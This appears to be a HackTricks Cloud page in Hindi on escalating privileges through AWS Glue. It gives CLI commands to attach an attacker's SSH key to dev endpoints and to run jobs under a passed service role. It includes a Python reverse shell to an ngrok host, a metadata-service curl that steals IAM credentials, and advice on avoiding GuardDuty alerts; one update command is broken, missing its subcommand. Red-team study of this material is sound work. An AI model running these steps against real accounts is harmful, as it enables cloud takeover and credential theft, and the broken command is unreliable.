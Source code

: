 # AWS - Glue Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो** करें.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

`iam:PassRole` और `glue:CreateDevEndpoint` अनुमतियों वाला हमलावर एक नया AWS Glue डेवलपमेंट एंडपॉइंट बना सकता है और उसे मौजूदा सर्विस रोल पास कर सकता है। फिर वे SSH के माध्यम से इंस्टेंस में प्रवेश कर सकते हैं और AWS CLI का उपयोग करके उन अनुमतियों तक पहुंच सकते हैं जिन तक रोल की पहुंच है।
```
aws glue create-dev-endpoint --endpoint-name my_dev_endpoint \
--role-arn arn_of_glue_service_role \
--public-key file:///path/to/my/public/ssh/key.pub
```
अब हमलावर को केवल **विकास अंतरापृष्ठ पर SSH के जरिए प्रवेश करना** होगा ताकि वह भूमिकाओं की साख प्राप्त कर सके।
```bash
# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
हालांकि GuardDuty दस्तावेज़ीकरण में विशेष रूप से उल्लेख नहीं है, Glue Instance से प्रमाण-पत्रों को निकालना एक बुरा विचार होगा। इसके बजाय, **नए इंस्टेंस से सीधे AWS API का उपयोग किया जाना चाहिए**।

**संभावित प्रभाव:** glue सेवा भूमिका निर्दिष्ट के लिए Privesc।

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

**`glue:UpdateDevEndpoint`** अनुमति वाला एक हमलावर मौजूदा Glue डेवलपमेंट एंडपॉइंट की संबद्ध SSH सार्वजनिक कुंजी को **अपडेट करने में सक्षम होगा**, फिर उसमें SSH के माध्यम से प्रवेश कर सकता है और उस भूमिका के पास जो अनुमतियां हैं उन तक पहुंच सकता है।
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///path/to/my/public/ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
अब हमलावर को केवल **SSH के माध्यम से विकास एंडपॉइंट में प्रवेश करने की आवश्यकता होगी ताकि वह रोल्स की क्रेडेंशियल्स तक पहुँच सके**। AWS API को सीधे नए इंस्टेंस से एक्सेस किया जाना चाहिए ताकि अलर्ट्स को ट्रिगर करने से बचा जा सके।

**संभावित प्रभाव:** ग्लू सर्विस रोल का उपयोग करके Privesc प्राप्त किया जा सकता है।

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

उन अनुमतियों वाला हमलावर **कोई भी ग्लू सर्विस अकाउंट जोड़ते हुए जॉब बना/अपडेट कर सकता है** और उसे शुरू कर सकता है। जॉब किसी भी पायथन कोड को निष्पादित कर सकती है, इसलिए एक रिवर्स शेल प्राप्त की जा सकती है और उसका उपयोग करके **IAM क्रेडेंशियल्स चुराए जा सकते हैं**।
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**संभावित प्रभाव:** glue सेवा भूमिका तक प्रिवेस्क प्राप्त करना निर्दिष्ट है।

### `glue:UpdateJob`

केवल अपडेट अनुमति के साथ एक हमलावर पहले से जुड़ी भूमिका की IAM साख चुरा सकता है।

**संभावित प्रभाव:** जुड़ी हुई glue सेवा भूमिका तक प्रिवेस्क प्राप्त करना।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें।**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
